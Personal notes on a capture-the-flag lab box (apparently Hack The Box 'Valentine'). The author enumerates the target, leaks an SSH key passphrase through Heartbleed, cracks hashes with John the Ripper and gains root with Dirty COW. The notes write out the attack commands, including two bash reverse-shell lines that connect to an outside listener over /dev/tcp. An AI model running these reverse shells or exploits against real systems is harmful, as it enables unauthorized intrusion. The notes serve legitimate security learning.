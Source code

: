 Ran basic nmap, gobuster, etc

gobuster found /dev, which had some notes from the devs about encoding, and a hype key?

opened up cyber chef...its the private key

tried to ssh as admin, root, nothing

gobuster found some new stuff
/encode.php
/decode.php

Checking it out, its just base64 stuff

after taking a look at the ssh stuff I needed a password to use the private key, luckily we can use JTR for that
use ssh2john to get the crackable hash
`ssh2john id_rsa > hash`
then use JTR to crack
`john-the-ripper --wordlist=rockyou.txt hash`

No luck :(

taking a step back and enumerating more we take a look to see if there are any vulnerabilities
`nmap --script vuln -oA nmap/vuln 10.129.244.173`

We get three vulnerabilities:
CCS Injection
Heartbleed
Poodle

Had to research what CCS Injection was
Seems like heartbleed will be the easiest/fastest to try out

found a heartbleed script that exploited it properly! grabbed memory and found some text `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==CK.n...Z.H.l|.....[..............`
Base64 decode gets us `heartbleedbelievethehype` which is prob the password for that private key
tried to ssh using this and the password with:
root
admin
valentine
hype

key is found in `~/Desktop/user.txt`

Interesting stuff:
there is a sqlite file
/home/hype/.gnupg change every 5min
owned by root but we can read /etc/chatscripts/provider, /etc/ppp/peers/provider

ran sudo -l (no permission)
tried to get version (no permission)

Checked the groups
groups=1000(hype),24(cdrom),30(dip),46(plugdev),124(sambashare)

/usr/sbin/pppd (suid)

owned by root, we search for that and we get a hit for priv esc

echo "/bin/bash -l > /dev/tcp/10.10.14.125/6000 0<&1 2>&1" > reshell.sh
bash -i >& /dev/tcp/10.10.14.125/6000 0>&1

Nothing seemed to work :(, guess I need to try a different route

checking out bash_history we see that there was a tmux session started

searching 3.2.0-23-generic ppriv esc we get:
https://www.exploit-db.com/exploits/33589
https://dirtycow.ninja/

Ran through a buuunch of dirty cow scripts to get something that worked (ended up compiling victim side to get it to work)
https://www.exploit-db.com/exploits/40839
Let me add a priveleged user
Didnt seem to be able to ssh as that user, but was able to just switch over to them
su firefart

got the flag in root!

NOTE: Pretty much everything is going to be a clue, especially images
try to use service versions to enumerate the OS version
if you get an outdated version try to run --script vuln on it to get some possible vulns
there are two ways to get priv esc, try to do both

TODO:
need to improve my enumeration process
learn more about nmap and its capabilities
learn about how heartbleed is actually exploited